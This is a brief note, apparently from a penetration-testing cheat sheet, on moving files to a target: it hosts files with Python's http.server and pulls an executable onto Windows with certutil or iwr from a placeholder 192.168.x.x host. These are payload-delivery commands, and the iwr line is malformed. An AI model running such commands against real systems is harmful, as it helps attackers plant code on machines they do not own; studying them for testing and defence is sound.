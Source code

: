 **transfer files**

**HOST HTTP**
(python3)
python3 -m http.server 80

wget for windows
certutil .exe -urlcache -f [http://192.168.x.x/file.exe](http://192.168.x.x/file.exe)
OR
`iwr http:192.168.x.x/file.exe`
